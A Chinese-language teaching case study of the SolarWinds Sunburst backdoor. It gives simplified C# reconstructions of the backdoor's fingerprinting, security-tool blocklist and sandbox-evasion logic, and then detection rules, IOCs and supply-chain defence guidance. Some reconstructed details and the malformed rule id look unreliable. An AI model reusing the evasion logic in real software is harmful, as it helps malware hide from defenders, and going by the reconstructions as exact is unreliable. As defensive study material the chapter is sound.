



## 案例九：SolarWinds Sunburst后门分析

案例三从宏观视角审视了SolarWinds供应链攻击的全貌，本案例聚焦于攻击的核心载荷——**Sunburst后门（SUNBURST）**——进行逐字节级别的技术剖析。Sunburst是网络安全史上最具技术深度的后门之一，其设计之精密、隐蔽之彻底、反分析之全面，为整个行业树立了新的攻击标杆。理解Sunburst的技术细节，是培养高级安全思维的必经之路。

### 攻击时间线与发现过程

在深入技术细节之前，先梳理攻击从部署到曝光的完整时间线，理解每个阶段攻击者的决策逻辑：

| 时间节点 | 事件 | 关键细节 |
|:---|:---|:---|
| 2019年10月 | 攻击者入侵SolarWinds构建系统 | 具体入侵路径至今未完全公开，疑为钓鱼或凭据泄露 |
| 2019年10月-2020年2月 | 后门代码注入并编译 | Sunburst代码插入Orion平台源码，经正常CI/CD流程编译签名 |
| 2020年3月24日 | Orion 2019.4 HF 5版本发布 | 含恶意代码的版本被推送给约18,000个客户 |
| 2020年3-6月 | 后门休眠期 | 攻击者等待2周激活窗口，仅选择高价值目标深入渗透 |
| 2020年6月 | 部分受害者被安装Teardrop/Raindrop | 第二阶段载荷，仅部署在最有价值的目标上 |
| 2020年12月8日 | FireEye发现入侵 | FireEye自身被盗红队工具后追查到SolarWinds |
| 2020年12月13日 | 公开披露 | 微软、FireEye、SolarWinds联合发布安全公告 |
| 2020年12月-2021年1月 | 应急响应与清除 | 受害组织紧急断开Orion系统、重建基础设施 |

这个时间线揭示了两个关键事实：攻击者在目标网络中潜伏了**长达9个月**未被发现；整个攻击链从注入到曝光跨越**14个月**。这种耐心和纪律性是国家级APT组织的典型特征。

### Sunburst后门架构全景

Sunburst的架构设计体现了"最小暴露面"原则——每个组件都经过精心设计，确保在正常运行条件下不会触发任何告警：

```mermaid
graph TB
    subgraph 构建阶段
        A[SolarWinds源码仓库] -->|注入恶意代码| B[Orion.Core.BusinessLayer.dll]
        B -->|合法代码签名| C[签名后的DLL]
    end subgraph
    
    subgraph 部署阶段
        C -->|自动更新| D[受害者Orion服务器]
        D -->|加载DLL| E[SolarWinds.BusinessLayerHost.exe]
        E -->|等待2周| F[后门激活]
    end subgraph
    
    subgraph 通信阶段
        F -->|DNS查询| G[avsvmcloud.com]
        G -->|CNAME响应| H[C2服务器]
        F -->|HTTP请求| I[合法域名伪装流量]
    end subgraph
    
    subgraph 执行阶段
        H -->|命令下发| J[Teardrop/Raindrop]
        J -->|内存注入| K[Cobalt Strike Beacon]
        K -->|横向移动| L[目标数据窃取]
    end subgraph
```

### 后门代码结构深度剖析

Sunburst被编译为`SolarWinds.Orion.Core.BusinessLayer.dll`的一部分，这是一个合法的Orion平台组件。攻击者将恶意代码分散注入到多个正常类中，使得代码审查极难发现异常。

#### 入口点与初始化

后门的执行入口被巧妙地嵌入到Orion平台的正常初始化流程中。当`SolarWinds.BusinessLayerHost.exe`进程启动时，它会加载并初始化这个DLL，Sunburst代码随之被触发：

```csharp
// 简化的后门入口逻辑（基于CrowdStrike/Microsoft逆向分析还原）
// 后门代码被分散注入到正常的Orion类中，此处展示核心逻辑

public class BackdoorInitializer
{
    // 后门在正常Orion初始化方法中被调用
    // 混淆手法：使用与正常业务逻辑相同的命名风格
    private static bool IsAlive = false;
    
    public void Initialize()
    {
        // 1. 检查是否满足激活条件
        if (!CheckActivationConditions())
            return;  // 不满足条件时完全静默，不产生任何网络活动
        
        // 2. 执行环境指纹采集
        var fingerprint = GatherSystemFingerprint();
        
        // 3. 生成唯一受害者标识
        string victimId = GenerateVictimId(fingerprint);
        
        // 4. 构建DNS查询并尝试C2通信
        string domain = BuildDnsQuery(victimId);
        AttemptC2Communication(domain);
    }
    
    private bool CheckActivationConditions()
    {
        // 时间检查：至少等待12-14天
        // 这个延迟确保安全研究人员的短期沙箱分析无法触发后门
        if (DateTime.Now - installDate < TimeSpan.FromDays(12))
            return false;
        
        // 安全工具检查：检测是否在分析环境中
        if (DetectSecurityTools())
            return false;
        
        // 网络连通性检查：确保能正常进行DNS查询
        if (!CheckNetworkConnectivity())
            return false;
        
        return true;
    }
}
```

#### 环境指纹采集与目标筛选

Sunburst并不盲目感染所有安装了Orion的系统。它会收集详细的系统信息，生成唯一的受害者标识符（MD5哈希），然后通过DNS查询将这个标识符发送给C2服务器。C2服务器根据预定义的目标名单决定是否对该受害者展开后续攻击：

```csharp
// 环境指纹采集逻辑（简化还原）
private SystemFingerprint GatherSystemFingerprint()
{
    var fp = new SystemFingerprint();
    
    // 机器GUID（来自注册表）
    fp.MachineGuid = Registry.GetValue(
        @"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography",
        "MachineGuid", "").ToString();
    
    // 计算机名和域名
    fp.Hostname = Environment.MachineName;
    fp.Domain = Environment.UserDomainName;
    
    // 网络适配器信息（MAC地址用于唯一标识）
    fp.MacAddresses = NetworkInterface.GetAllNetworkInterfaces()
        .Select(nic => nic.GetPhysicalAddress().ToString())
        .ToArray();
    
    // 系统启动时间（用于计算安装后的时间窗口）
    fp.BootTime = DateTime.Now - TimeSpan.FromMilliseconds(
        Environment.TickCount);
    
    // IP地址信息（用于确定受害者地理位置和网络环境）
    fp.IpAddresses = Dns.GetHostAddresses(fp.Hostname)
        .Select(ip => ip.ToString())
        .ToArray();
    
    return fp;
}

// 生成受害者唯一标识
private string GenerateVictimId(SystemFingerprint fp)
{
    // 将所有指纹信息拼接后计算MD5
    // 这个哈希值将被编码到DNS查询中
    string raw = $"{fp.MachineGuid}|{fp.Hostname}|{fp.Domain}";
    using (var md5 = MD5.Create())
    {
        byte[] hash = md5.ComputeHash(Encoding.UTF8.GetBytes(raw));
        // 取前8字节作为受害者ID，编码为十六进制字符串
        return BitConverter.ToString(hash, 0, 8)
            .Replace("-", "").ToLowerInvariant();
    }
}
```

### DNS隐蔽通信协议深度解析

Sunburst最精妙的设计在于其DNS隐蔽通信通道。它不使用传统的HTTP/HTTPS C2通道（容易被流量检测发现），而是将所有通信隐藏在DNS查询中——而DNS流量在绝大多数企业网络中是不受检查的。

#### 域名编码机制

Sunburst将受害者标识符和命令数据编码到DNS子域名中，查询目标域名为`avsvmcloud.com`。这个域名看起来完全合法，与SolarWinds的合法域名`solarwinds.com`在风格上一致：

```text
正常DNS查询示例：
  www.google.com
  api.github.com

Sunburst DNS查询格式：
  [encoded-data].appsync-api.[region].avsvmcloud.com

编码数据结构（十六进制）：
  ┌─────────────────────────────────────────────────────┐
  │  字节0-1    │  字节2-7    │  字节8-N   │  校验和    │
  │  CNAME标记  │  受害者ID   │  命令数据  │  验证字节  │
  └─────────────────────────────────────────────────────┘

实际DNS查询示例：
  a1b2c3d4e5f6.appsync-api.us-east-1.avsvmcloud.com
  │             │              │
  │             │              └── AWS区域伪装（增强可信度）
  │             └── API子域伪装（模仿合法AWS API调用）
  └── Base32编码的受害者ID
```

#### DNS响应解析

C2服务器的DNS响应同样经过精心设计。它使用CNAME记录将恶意域名重定向到攻击者控制的IP地址，同时利用标准的DNS TTL和缓存机制来控制通信节奏：

```python
# Sunburst DNS通信协议的简化Python模拟
# 注意：这是防御分析用的协议模拟，非攻击工具

import dns.resolver
import struct
import hashlib
import base64

class SunburstProtocolAnalyzer:
    """分析Sunburst DNS通信协议的防御工具"""
    
    BASE_DOMAIN = "avsvmcloud.com"
    KNOWN_REGIONS = [
        "us-east-1", "us-west-2", "eu-west-1", 
        "ap-northeast-1"  # 攻击者使用的AWS区域
    ]
    
    def decode_dns_query(self, fqdn: str) -> dict:
        """解码一个Sunburst风格的DNS查询"""
        result = {
            "raw_query": fqdn,
            "is_sunburst": False,
            "victim_id": None,
            "command_data": None,
            "analysis": ""
        }
        
        # 检查是否匹配已知的Sunburst域名模式
        if not fqdn.endswith(self.BASE_DOMAIN):
            result["analysis"] = "不匹配Sunburst域名模式"
            return result
        
        parts = fqdn.replace(f".{self.BASE_DOMAIN}", "").split(".")
        
        # 提取编码数据
        if len(parts) >= 3:
            encoded = parts[0]
            
            # 尝试Base32解码
            try:
                decoded = base32_decode(encoded)
                if len(decoded) >= 8:
                    victim_id = decoded[:8].hex()
                    result["is_sunburst"] = True
                    result["victim_id"] = victim_id
                    result["analysis"] = (
                        f"疑似Sunburst通信。受害者ID: {victim_id}"
                    )
            except Exception:
                result["analysis"] = "编码数据解码失败"
        
        return result
    
    def detect_sunburst_dns_pattern(self, dns_log_path: str) -> list:
        """从DNS日志中检测Sunburst通信模式"""
        suspicious = []
        
        with open(dns_log_path) as f:
            for line in f:
                # 检查模式1：avsvmcloud.com域名查询
                if "avsvmcloud.com" in line:
                    suspicious.append({
                        "log": line.strip(),
                        "confidence": "HIGH",
                        "reason": "直接匹配已知Sunburst域名"
                    })
                
                # 检查模式2：异常长的子域名（编码数据特征）
                domain = extract_domain(line)
                if domain and len(domain.split(".")[0]) > 30:
                    suspicious.append({
                        "log": line.strip(),
                        "confidence": "MEDIUM",
                        "reason": "子域名异常长，可能包含编码数据"
                    })
        
        return suspicious
```

#### DGA域名生成算法

Sunburst内置了域名生成算法（DGA），当主域名`avsvmcloud.com`被封锁时，会自动生成备选域名。这些生成的域名具有高熵值特征，但被设计为看起来像合法的云服务域名：

```python
# Sunburst DGA算法的防御分析还原
# 用于生成检测规则，非攻击工具

import hashlib
import time

def analyze_sunburst_dga(seed: str, timestamp: int) -> str:
    """
    分析Sunburst的DGA域名生成逻辑。
    
    Sunburst的DGA特点：
    1. 使用受害者特定的种子值（seed）
    2. 结合时间戳生成周期性变化的域名
    3. 生成的域名伪装为合法的云服务子域名
    4. 域名长度和字符分布模仿正常域名
    """
    # Sunburst使用SHA256 + 自定义编码
    raw = f"{seed}{timestamp}".encode()
    digest = hashlib.sha256(raw).hexdigest()
    
    # 编码为合法域名字符集（仅字母和数字）
    # 生成的域名格式模仿合法AWS API Gateway域名
    encoded = base32_encode(bytes.fromhex(digest[:16]))
    domain = f"{encoded.lower()}.appsync-api.us-east-1.avsvmcloud.com"
    
    return domain

# DGA检测特征
DGA_DETECTION_INDICATORS = {
    "domain_length": "> 20 characters for subdomain",
    "entropy": "> 3.5 bits per character",
    "consonant_ratio": "abnormally high consonant-to-vowel ratio",
    "dictionary_match": "low match with English dictionary words",
    "time_pattern": "domain changes periodically (24h cycle)",
}
```

### 反分析与反检测技术体系

Sunburst的反分析能力是其最令人印象深刻的特征之一。攻击者在后门中实现了全面的环境检测机制，确保后门在任何非真实目标环境中都不会暴露其恶意行为：

#### 安全工具检测

后门会检查目标系统上是否安装了特定的安全分析和监控工具。如果检测到这些工具，后门会立即停止所有活动并进入完全静默状态：

```csharp
// Sunburst安全工具检测逻辑（基于逆向分析还原）
private bool DetectSecurityTools()
{
    // 检测的进程和服务列表
    // 这些是当时主流的安全分析和监控工具
    string[] blacklistedProcesses = {
        // 安全分析工具
        "wireshark",        // 网络抓包分析
        "procmon",          // Sysinternals Process Monitor
        "procexp",          // Sysinternals Process Explorer
        "processhacker",    // 开源进程分析工具
        "x64dbg",           // 调试器
        "ollydbg",          // 经典调试器
        "ida",              // IDA Pro反汇编器
        "ida64",            // IDA Pro 64位
        "ghidra",           // NSA开源逆向工具
        "binaryninja",      // Binary Ninja逆向平台
        "dnspy",            // .NET反编译器
        "ilspy",            // .NET反编译器
        
        // 安全监控工具
        "crowdstrike",      // CrowdStrike EDR
        "sentinel",         // Microsoft Defender for Endpoint
        "carbonblack",      // Carbon Black EDR
        "cylance",          // Cylance AI防护
        "symantec",         // Symantec Endpoint Protection
        "mcafee",           // McAfee Endpoint Security
        "kaspersky",        // Kaspersky Endpoint Security
        "f-secure",         // F-Secure
        "eset",             // ESET Endpoint
        
        // 沙箱和虚拟化检测
        "vmtoolsd",         // VMware Tools
        "vboxservice",      // VirtualBox Guest Services
        "vboxtray",         // VirtualBox Tray
        "vmwaretray",       // VMware Tray
        "wireshark",        // 再次检查（多路径匹配）
    };
    
    // 获取当前运行的所有进程
    var runningProcesses = Process.GetProcesses()
        .Select(p => p.ProcessName.ToLowerInvariant())
        .ToHashSet();
    
    // 检查黑名单中的进程是否在运行
    foreach (var blacklisted in blacklistedProcesses)
    {
        if (runningProcesses.Any(p => p.Contains(blacklisted)))
        {
            // 检测到安全工具，进入静默模式
            // 注意：后门不会退出或产生任何异常行为
            // 它只是不再执行任何恶意操作
            return true;
        }
    }
    
    // 额外检查：安全工具的服务和驱动
    var services = ServiceController.GetServices();
    string[] blacklistedServices = {
        "CrowdStrike", "CSFalcon", "SentinelAgent",
        "CbDefense", "CylanceSvc", "SepMasterService"
    };
    
    foreach (var svc in services)
    {
        if (blacklistedServices.Any(b => 
            svc.ServiceName.Contains(b, StringComparison.OrdinalIgnoreCase)))
        {
            return true;
        }
    }
    
    return false;
}
```

#### 虚拟化与沙箱检测

除了检测安全工具，Sunburst还会对运行环境进行底层检测，判断自己是否处于虚拟机或沙箱分析环境中：

```csharp
// 虚拟化环境检测逻辑
private bool DetectVirtualization()
{
    // 方法1：检查BIOS信息
    // 物理机通常有特定的BIOS厂商信息
    // 虚拟机的BIOS信息通常包含VMware/VirtualBox/Hyper-V标识
    using (var searcher = new ManagementObjectSearcher(
        "SELECT * FROM Win32_BIOS"))
    {
        foreach (var obj in searcher.Get())
        {
            string manufacturer = obj["Manufacturer"]?.ToString() ?? "";
            string[] vmIndicators = {
                "VMware", "VirtualBox", "Xen", "QEMU", 
                "KVM", "Hyper-V", "Parallels", "bhyve"
            };
            
            if (vmIndicators.Any(vm => 
                manufacturer.Contains(vm, StringComparison.OrdinalIgnoreCase)))
            {
                return true;
            }
        }
    }
    
    // 方法2：检查MAC地址前缀
    // 虚拟网卡通常有特定的OUI前缀
    string[] vmMacPrefixes = {
        "00:0C:29",  // VMware
        "00:50:56",  // VMware
        "08:00:27",  // VirtualBox
        "52:54:00",  // QEMU/KVM
        "00:16:3E",  // Xen
        "00:15:5D",  // Hyper-V
    };
    
    var nics = NetworkInterface.GetAllNetworkInterfaces();
    foreach (var nic in nics)
    {
        string mac = nic.GetPhysicalAddress().ToString();
        string formatted = string.Join(":", 
            Enumerable.Range(0, 6)
                .Select(i => mac.Substring(i * 2, 2)));
        
        if (vmMacPrefixes.Any(prefix => 
            formatted.StartsWith(prefix, StringComparison.OrdinalIgnoreCase)))
        {
            return true;
        }
    }
    
    // 方法3：检查内存大小和CPU核心数
    // 沙箱环境通常资源较少
    var memInfo = new Microsoft.VisualBasic.Devices.ComputerInfo();
    ulong totalRam = memInfo.TotalPhysicalMemory;
    int cpuCores = Environment.ProcessorCount;
    
    // 小于4GB内存或少于2个核心可能是沙箱
    if (totalRam < 4L * 1024 * 1024 * 1024 || cpuCores < 2)
    {
        return true;
    }
    
    // 方法4：检查最近的用户活动
    // 沙箱通常没有真实的用户交互痕迹
    string userProfile = Environment.GetFolderPath(
        Environment.SpecialFolder.UserProfile);
    string recentFolder = Path.Combine(userProfile, 
        @"AppData\Roaming\Microsoft\Windows\Recent");
    
    if (Directory.Exists(recentFolder))
    {
        var recentFiles = Directory.GetFiles(recentFolder);
        // 沙箱通常没有最近打开的文件
        if (recentFiles.Length < 5)
        {
            return true;
        }
    }
    
    return false;
}
```

### 持久化机制与进程注入

Sunburst的持久化机制充分利用了Orion平台的合法架构。它不需要创建新的服务、注册表键或计划任务——这些操作都容易被EDR检测。相反，它直接嵌入到Orion的合法进程中，随系统启动自动加载：



#### 代码注入技术

当C2服务器确认目标为高价值受害者后，Sunburst会将第二阶段载荷（Teardrop）注入到合法的Windows进程中：

```csharp
// 第二阶段载荷注入逻辑（逆向分析还原）
// Teardrop是一个内存驻留的加载器，不写入磁盘

private void InjectTeardrop(byte[] encryptedPayload)
{
    // 选择注入目标进程
    // 通常选择正常的Windows服务进程，如dllhost.exe
    string targetProcess = "dllhost.exe";
    
    // 方法1：进程镂空（Process Hollowing）
    // 1. 创建目标进程的挂起实例
    // 2. 取消映射其原始代码
    // 3. 写入恶意代码
    // 4. 恢复执行
    
    // 方法2：APC注入（更隐蔽）
    // 1. 打开目标进程的线程
    // 2. 将恶意代码作为APC排队到线程
    // 3. 线程在下一次可警报等待时执行
    
    // Teardrop本身是一个加载器
    // 它在内存中解密并加载Cobalt Strike Beacon
    // Beacon配置经过修改以匹配受害者环境
    
    // 反取证：内存中的加密payload使用一次性密钥
    // 密钥从C2服务器获取，不持久化存储
}
```

### MITRE ATT&CK技术映射

Sunburst的每个技术细节都可以映射到MITRE ATT&CK框架，这为防御方提供了结构化的分析视角：

| ATT&CK技术ID | 技术名称 | Sunburst中的具体实现 |
|:---|:---|:---|
| T1195.002 | 供应链入侵：软件供应链 | 篡改Orion构建系统，植入后门代码 |
| T1059.001 | 命令执行：PowerShell | 通过C2下发PowerShell命令执行 |
| T1071.004 | 应用层协议：DNS | 使用DNS协议进行隐蔽C2通信 |
| T1568.002 | 动态解析：域名生成算法 | 内置DGA生成备选C2域名 |
| T1055.012 | 进程注入：进程镂空 | 将Teardrop注入合法进程 |
| T1497.001 | 虚拟化/沙箱规避：系统检查 | 检测VMware/VirtualBox/Hyper-V |
| T1553.002 | 破坏信任：代码签名 | 使用SolarWinds合法签名 |
| T1036.005 | 伪装：匹配合法名称 | 后门代码模仿合法Orion类命名 |
| T1070.004 | 删除指标：文件删除 | 清理临时文件和日志记录 |
| T1480.001 | 执行护栏：密钥加密 | 使用环境特定密钥加密payload |

### 第二阶段载荷分析

Sunburst本身是一个轻量级的侦察后门。它只负责识别高价值目标并建立初始通道。真正的攻击操作由第二阶段载荷执行：



**Teardrop**：一种内存驻留的加载器，使用自定义的加密方案在内存中解密并加载Cobalt Strike Beacon。Teardrop不写入磁盘文件，所有操作都在内存中完成，极大增加了取证难度。

**Raindrop**：功能与Teardrop类似，但在代码结构和加密方案上有差异，表明可能是不同攻击小组使用的工具变体。

**Cobalt Strike Beacon**：最终的攻击载荷，负责实际的横向移动、凭据窃取和数据外泄。攻击者对Beacon进行了定制修改，包括：
- 自定义的Malleable C2配置，模仿合法的HTTPS流量
- 修改了默认的Beacon命名约定
- 使用了环境感知的睡眠定时器，仅在工作时间活跃

### 检测策略与规则

#### 网络层检测

```yaml
# Suricata/Snort规则：检测Sunburst DNS通信
# 检测avsvmcloud.com域名的DNS查询

alert dns any any -> any any (
    msg:"MALWARE Sunburst C2 DNS Query - avsvmcloud.com";
    dns.query; content:"avsvmcloud.com";
    classtype:trojan-activity;
    sid:2020121301; rev:1;
    metadata:affected_product Windows,
             attack_target Client_Endpoint,
             severity 10;
)

alert dns any any -> any any (
    msg:"MALWARE Sunburst C2 DNS Query - appsync-api pattern";
    dns.query; content:"appsync-api";
    dns.query; pcre:"/^[a-z0-9]{20,}\.appsync-api\.(us-east-1|us-west-2|eu-west-1|ap-northeast-1)\.avsvmcloud\.com$/i";
    classtype:trojan-activity;
    sid:2020121302; rev:1;
)
```

#### YARA检测规则

```yara
rule Sunburst_Backdoor_Indicator {
    meta:
        description = "Detects Sunburst backdoor artifacts in Orion DLL"
        author = "Security Analysis Team"
        date = "2020-12-13"
        reference = "Microsoft MSTIC, FireEye"
        severity = "CRITICAL"
        tlp = "WHITE"
    
    strings:
        // 后门域名
        $domain1 = "avsvmcloud.com" ascii wide
        $domain2 = "freescanonline.com" ascii wide
        $domain3 = "deftsecurity.com" ascii wide
        $domain4 = "highdatabase.com" ascii wide
        
        // 编码相关字符串
        $encode1 = "appsync-api" ascii wide
        $encode2 = "api.solarwinds.com" ascii wide
        
        // 后门类名和方法名（基于逆向分析）
        $class1 = "SolarWinds.Orion.Core.BusinessLayer" ascii wide
        $method1 = "Initialize" ascii wide
        $method2 = "IsAlive" ascii wide
        
        // 加密相关
        $crypto1 = { 72 13 40 00 00 00 2E 00 64 00 6C 00 6C 00 }
        
        // 配置数据特征
        $config1 = { 00 00 00 00 00 00 00 00 ?? ?? ?? ?? 00 00 00 00 }
        
    condition:
        uint16(0) == 0x5A4D and  // PE文件头
        filesize < 5MB and
        (
            (2 of ($domain*) and 1 of ($encode*)) or
            (1 of ($class*) and 2 of ($method*) and 1 of ($crypto*))
        )
}

rule Teardrop_Loader {
    meta:
        description = "Detects Teardrop memory loader"
        author = "Security Analysis Team"
        date = "2020-12-13"
    
    strings:
        // Teardrop解密例程特征
        $decrypt1 = { 48 8B 05 ?? ?? ?? ?? 48 89 44 24 ?? 48 8D 05 }
        $decrypt2 = { 48 89 5C 24 ?? 48 89 74 24 ?? 57 48 83 EC }
        
        // 内存分配模式
        $alloc1 = { FF 15 ?? ?? ?? ?? 48 85 C0 74 ?? 48 89 44 24 }
        
        // Cobalt Strike配置解密
        $cs_config = { 69 68 69 68 69 6B ?? ?? 00 00 }
        
    condition:
        (uint16(0) == 0x5A4D or uint32(0) == 0x464C457F) and
        2 of ($decrypt*) and 1 of ($alloc*) and $cs_config
}
```

#### 行为检测规则（Sigma）

```yaml
# Sigma规则：检测Sunburst异常行为
title: Sunburst Backdoor Activity Detection
id: a]2b3c4d-5e6f-7a8b-9c0d-e1f2a3b4c5d6
status: experimental
description: |
    Detects behavioral patterns associated with the Sunburst backdoor,
    including suspicious DNS queries, process injection, and 
    security tool enumeration.
author: Security Analysis Team
date: 2020/12/13
references:
    - https://www.fireeye.com/blog/threat-research/2020/12/evasive-attacker-leverages-solarwinds-supply-chain-compromises-with-sunburst-backdoor.html
    - https://www.microsoft.com/security/blog/2020/12/18/analyzing-solorigate-the-compromised-dll-file-that-started-a-sophisticated-cyberattack-and-how-microsoft-defender-helps-protect/
tags:
    - attack.execution
    - attack.command_and_control
    - attack.t1195.002
    - attack.t1071.004

logsource:
    category: dns_query
    product: windows

detection:
    selection_domain:
        QueryName|contains:
            - 'avsvmcloud.com'
            - 'freescanonline.com'
            - 'deftsecurity.com'
            - 'highdatabase.com'
            - 'databaseblog.com'
            - 'zupertech.com'
    selection_subdomain:
        QueryName|re: '^[a-z0-9]{20,}\.'
    condition: selection_domain or selection_subdomain
level: critical
```

### 关键入侵指标（IOC）

以下IOC来自多个安全厂商的联合分析，可用于检测和排查Sunburst感染：

```yaml
# Sunburst IOC清单（截至2021年1月更新）
# 数据来源：Microsoft MSTIC, FireEye, CrowdStrike

file_indicators:
    # 恶意DLL文件
    - name: "SolarWinds.Orion.Core.BusinessLayer.dll"
      hash_sha256: "32519b85c0b422e4656de6e6c41878e95fd95026267daab4215ee59c107d6c77"
      hash_md5: "b91ce2fa41e2d21aed27ee51e6621252"
      size: "约1MB（不同版本有差异）"
      note: "合法签名的DLL，后门代码嵌入其中"
    
    # 相关域名（已被sinkhole）
    domains:
        - "avsvmcloud.com"          # 主要C2域名
        - "freescanonline.com"      # 备用C2域名
        - "deftsecurity.com"        # 备用C2域名
        - "highdatabase.com"        # 备用C2域名
        - "databaseblog.com"        # 备用C2域名
        - "zupertech.com"           # 备用C2域名
    
    # 恶意IP地址
    ips:
        - "13.59.205.66"            # C2基础设施
        - "54.193.127.66"           # C2基础设施
        - "54.215.192.52"           # C2基础设施
        - "34.203.203.23"           # C2基础设施
        - "139.99.115.204"          # 数据外泄节点

behavioral_indicators:
    # DNS查询模式
    dns_patterns:
        - description: "对avsvmcloud.com的异常DNS查询"
          frequency: "低频（每小时1-2次）"
          encoding: "子域名包含Base32编码数据"
    
    # 进程行为
    process_indicators:
        - process: "SolarWinds.BusinessLayerHost.exe"
          behavior: "产生DNS查询到非SolarWinds域名"
          note: "正常情况下此进程不应有外部DNS活动"
        
        - process: "dllhost.exe"
          behavior: "注入非标准代码段"
          note: "Teardrop注入的目标进程"
    
    # 注册表修改
    registry_indicators:
        - path: "HKLM\\SOFTWARE\\Microsoft\\Cryptography"
          key: "MachineGuid"
          note: "后门读取此键获取机器唯一标识"

# 受影响版本
affected_versions:
    - version: "Orion Platform 2019.4 HF 5"
      file_version: "2019.4.5200.9083"
      first_seen: "2020-03-24"
    - version: "Orion Platform 2020.2.1"
      file_version: "2020.2.100.12219"
      first_seen: "2020-06-04"
```

### 防御深度策略

#### 供应链安全验证



#### 具体防御实施

**1. 供应商安全评估流程**

```python
# 供应商安全评估检查清单（自动化脚本）
class VendorSecurityAssessment:
    """SolarWinds事件后的供应商安全评估框架"""
    
    ASSESSMENT_CRITERIA = {
        "build_security": {
            "weight": 0.25,
            "checks": [
                "是否有独立的构建环境（与开发环境隔离）",
                "是否实施了可重复构建（Reproducible Build）",
                "构建流水线是否有访问控制和审计日志",
                "源码到二进制的完整链路是否可追溯",
            ]
        },
        "code_signing": {
            "weight": 0.20,
            "checks": [
                "代码签名证书是否存储在HSM中",
                "签名过程是否有双人授权机制",
                "是否监控证书透明度日志",
                "签名密钥的轮换策略是否定期更新",
            ]
        },
        "incident_response": {
            "weight": 0.15,
            "checks": [
                "是否有公开的安全事件响应流程",
                "历史安全事件的响应速度和透明度",
                "是否有漏洞赏金计划",
                "安全联络人是否及时响应",
            ]
        },
        "security_practices": {
            "weight": 0.20,
            "checks": [
                "是否定期进行渗透测试",
                "是否有第三方安全审计",
                "员工安全培训覆盖率",
                "是否实施零信任架构",
            ]
        },
        "transparency": {
            "weight": 0.20,
            "checks": [
                "是否提供软件物料清单（SBOM）",
                "安全漏洞披露流程是否透明",
                "是否有安全公告订阅渠道",
                "源代码是否可审计（或有审计报告）",
            ]
        }
    }
    
    def generate_report(self, vendor_name: str, findings: dict) -> str:
        """生成供应商安全评估报告"""
        total_score = sum(
            findings[category]["score"] * criteria["weight"]
            for category, criteria in self.ASSESSMENT_CRITERIA.items()
        )
        
        risk_level = (
            "LOW" if total_score >= 80 else
            "MEDIUM" if total_score >= 60 else
            "HIGH" if total_score >= 40 else
            "CRITICAL"
        )
        
        return f"""
供应商安全评估报告：{vendor_name}
{'='*50}
综合评分：{total_score:.1f}/100
风险等级：{risk_level}

建议措施：
{''.join(self._generate_recommendations(findings, risk_level))}
        """
```

**2. 软件物料清单（SBOM）验证**

```bash
#!/bin/bash
# SBOM验证脚本 - 检查软件组件的完整性
# SolarWinds事件后，验证供应链组件的完整性变得至关重要

generate_sbom_hash() {
    local component=$1
    local version=$2
    # 计算组件的哈希值
    sha256sum "${component}-${version}.dll" | awk '{print $1}'
}

verify_against_known_good() {
    local component=$1
    local hash=$2
    
    # 从已知良好哈希数据库查询
    known_hash=$(query_hash_database "$component")
    
    if [ "$hash" == "$known_hash" ]; then
        echo "[PASS] $component 完整性验证通过"
        return 0
